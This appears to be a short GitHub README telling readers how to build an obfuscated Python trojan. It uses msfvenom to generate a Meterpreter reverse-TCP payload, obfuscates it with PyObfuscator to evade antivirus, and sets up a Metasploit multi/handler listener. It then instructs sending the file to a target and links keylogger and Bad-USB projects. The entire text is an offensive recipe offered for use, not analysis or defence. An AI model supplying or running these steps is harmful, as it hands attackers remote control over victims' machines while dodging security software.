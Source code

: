 # Create python trojan with Metasploit and bypass all antiviruses (READ THIS AS CODE)

1 : Install python and metasploit or using kali linux

2 : Next install requreiments

3 : Create payload and obfuscation it 

4 : Build up listener with metasploit and send payload obfuscation to target 

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it ( https://github.com/CharonDefalt/Bad-usb OR https://github.com/CharonDefalt/python-keylogger )

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
Now send this file ( payload_obfu.py ) to target


